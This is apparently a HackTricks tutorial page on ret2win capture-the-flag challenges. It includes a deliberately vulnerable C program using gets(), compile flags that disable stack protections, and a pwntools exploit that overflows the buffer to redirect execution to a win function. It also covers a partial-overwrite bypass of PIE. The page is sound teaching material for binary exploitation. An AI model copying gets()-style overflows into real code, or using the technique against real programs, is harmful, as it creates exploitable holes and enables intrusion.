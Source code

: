 # Ret2win

{{#include ../../../banners/hacktricks-training.md}}

## Basic Information

**Ret2win** challenges are a popular category in **Capture The Flag (CTF)** competitions, particularly in tasks that involve **binary exploitation**. The goal is to exploit a vulnerability in a given binary to execute a specific, uninvoked function within the binary, often named something like `win`, `flag`, etc. This function, when executed, usually prints out a flag or a success message. The challenge typically involves overwriting the **return address** on the stack to divert execution flow to the desired function. Here's a more detailed explanation with examples:

### C Example

Consider a simple C program with a vulnerability and a `win` function that we intend to call:

```c
#include <stdio.h>
#include <string.h>

void win() {
    printf("Congratulations! You've called the win function.\n");
}

void vulnerable_function() {
    char buf[64];
    gets(buf); // This function is dangerous because it does not check the size of the input, leading to buffer overflow.
}

int main() {
    vulnerable_function();
    return 0;
}
```

To compile this program without stack protections and with **ASLR** disabled, you can use the following command:

```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```

- `-m32`: Compile the program as a 32-bit binary (this is optional but common in CTF challenges).
- `-fno-stack-protector`: Disable protections against stack overflows.
- `-z execstack`: Allow execution of code on the stack.
- `-no-pie`: Disable Position Independent Executable to ensure that the address of the `win` function does not change.
- `-o vulnerable`: Name the output file `vulnerable`.

### Python Exploit using Pwntools

For the exploit, we'll use **pwntools**, a powerful CTF framework for writing exploits. The exploit script will create a payload to overflow the buffer and overwrite the return address with the address of the `win` function.

```python
from pwn import *

# Set up the process and context for the binary
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path

# Find the address of the win function
win_addr = p32(0x08048456)  # Replace 0x08048456 with the actual address of the win function in your binary

# Create the payload
# The buffer size is 64 bytes, and the saved EBP is 4 bytes. Hence, we need 68 bytes before we overwrite the return address.
payload = b'A' * 68 + win_addr

# Send the payload
p.sendline(payload)
p.interactive()
```

To find the address of the `win` function, you can use **gdb**, **objdump**, or any other tool that allows you to inspect binary files. For instance, with `objdump`, you could use:

```sh
objdump -d vulnerable | grep win
```

This command will show you the assembly of the `win` function, including its starting address.&#x20;

The Python script sends a carefully crafted message that, when processed by the `vulnerable_function`, overflows the buffer and overwrites the return address on the stack with the address of `win`. When `vulnerable_function` returns, instead of returning to `main` or exiting, it jumps to `win`, and the message is printed.

## Protections

- [**PIE**](../common-binary-protections-and-bypasses/pie/index.html) **should be disabled** for the address to be reliable across executions or the address where the function will be stored won't be always the same and you would need some leak in order to figure out where is the win function loaded. In some cases, when the function that causes the overflow is `read` or similar, you can do a **Partial Overwrite** of 1 or 2 bytes to change the return address to be the win function. Because of how ASLR works, the last three hex nibbles are not randomized, so there is a **1/16 chance** (1 nibble) to get the correct return address.
- [**Stack Canaries**](../common-binary-protections-and-bypasses/stack-canaries/index.html) should be also disabled or the compromised EIP return address won't never be followed.

## Other examples & References

- [https://ir0nstone.gitbook.io/notes/types/stack/ret2win](https://ir0nstone.gitbook.io/notes/types/stack/ret2win)
- [https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html](https://guyinatuxedo.github.io/04-bof_variable/tamu19_pwn1/index.html)
  - 32bit, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw16_warmup/index.html)
  - 64 bits with ASLR, with a leak of the bin address
- [https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/csaw18_getit/index.html)
  - 64 bits, no ASLR
- [https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html](https://guyinatuxedo.github.io/05-bof_callfunction/tu17_vulnchat/index.html)
  - 32 bits, no ASLR, double small overflow, first to overflow the stack and enlarge the size of the second overflow
- [https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt_strings/backdoor17_bbpwn/index.html)
  - 32 bit, relro, no canary, nx, no pie, format string to overwrite the address `fflush` with the win function (ret2win)
- [https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/](https://7rocky.github.io/en/ctf/other/blackhat-ctf/fno-stack-protector/)
  - 64 bit, relro, no canary, nx, pie. Partial overwrite to call the win function (ret2win)

{{#include ../../../banners/hacktricks-training.md}}



